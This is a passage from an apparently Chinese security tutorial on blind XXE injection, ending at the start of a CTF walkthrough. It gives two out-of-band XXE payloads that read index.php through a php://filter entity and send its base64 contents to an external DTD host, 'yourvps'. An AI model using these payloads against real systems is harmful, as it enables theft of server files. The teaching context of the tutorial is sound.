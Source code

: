 &lt;!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=index.php"&gt;

&lt;!ENTITY % dtd SYSTEM "[http://yourvps/xxe.xml"&gt](http://yourvps/xxe.xml"&gt);

%dtd; %all;

\]&gt;

&lt;value&gt;&send;&lt;/value&gt;

\`\`\`

查看access.log:

!\[\]\([https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170704/5.jpg?raw=true\](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170704/5.jpg?raw=true\)\)

\#\#\#\# payload2

发送的xml：

\`\`\`xml

&lt;?xml version="1.0" encoding="utf-8"?&gt;

&lt;!DOCTYPE data  \[

&lt;!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=index.php"&gt;

&lt;!ENTITY % dtd SYSTEM "[http://yourvps/xxe.xml"&gt](http://yourvps/xxe.xml"&gt);

%dtd; %send;

\]&gt;

\`\`\`

而在vps上的xxe.xml内容为：

\`\`\`xml

&lt;!ENTITY % payload2 "&lt;!ENTITY &\#x25; send SYSTEM '[http://yourvps/%file;'&gt;"&gt](http://yourvps/%file;'>"&gt); %payload2;

\`\`\`

注意的是，\`&\#25;\` 不能直接写成\`%\`，否则无法解析。

xxe.xml中定义和引用了\`%payload2\`,在通过\`%dtd\`引入xxe.xml后，得以使用符号实体%send来进行发送。其中%file为读取的文件内容。查看access.log:

!\[\]\([https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170704/6.jpg?raw=true\](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170704/6.jpg?raw=true\)\)

# ctf

## 小试牛刀

拿jarvisoj平台上的题目来小试牛刀吧。

题目：\[api调用\]\([http://web.jarvisoj.com:9882/\](http://web.jarvisoj.com:9882/\)\)

